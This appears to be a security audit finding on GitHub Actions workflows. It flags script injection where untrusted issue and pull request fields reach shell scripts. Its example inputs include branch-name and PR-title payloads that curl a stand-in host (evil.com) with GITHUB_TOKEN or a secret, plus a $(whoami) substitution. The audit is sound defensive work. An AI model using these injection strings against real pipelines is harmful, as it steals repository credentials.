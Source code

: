 ### 🟡 MEDIUM RISK: Script Injection in issue-triage.yml

**File**: `.github/workflows/issue-triage.yml`
**Risk Level**: MEDIUM - Command injection potential

**Problem**: Processes untrusted issue content:

```yaml
# POTENTIALLY VULNERABLE
ISSUE_TITLE: ${{ github.event.issue.title }}
ISSUE_BODY: ${{ github.event.issue.body }}
ISSUE_AUTHOR: ${{ github.event.issue.user.login }}
# ... runs shell script
run: |
  bash .github/scripts/issue-triage.sh
```

**Supporting Script Risk**: `.github/scripts/issue-triage.sh` processes untrusted issue data:

```bash
# USES UNTRUSTED ISSUE CONTENT DIRECTLY
ISSUE_CONTENT=$(cat <<EOF
Repository Context:
${REPO_CONTEXT}

Issue Details:
Title: ${ISSUE_TITLE}
Author: ${ISSUE_AUTHOR}
Body:
${ISSUE_BODY:-"No description provided"}
EOF
)
```

### 🟢 LOW RISK: Other Workflows

**Files**: `claude.yml`, `claude-code-review.yml`, `docker-publish.yml`, `release.yml`
**Risk Level**: LOW

**Assessment**: These workflows either:
- Don't process untrusted input directly
- Use the data only for display/comment purposes
- Don't execute user-controlled code

## Detailed Vulnerability Breakdown

### 1. Command Injection via Shell Script Execution

**Risk**: Untrusted data in shell scripts can execute arbitrary commands

**Examples of dangerous inputs**:
- Branch name: `"; curl evil.com?token=$GITHUB_TOKEN;#`
- PR title: `feat: add new feature && curl evil.com?data=$SECRET`
- Issue body: `The issue is \$(whoami)`

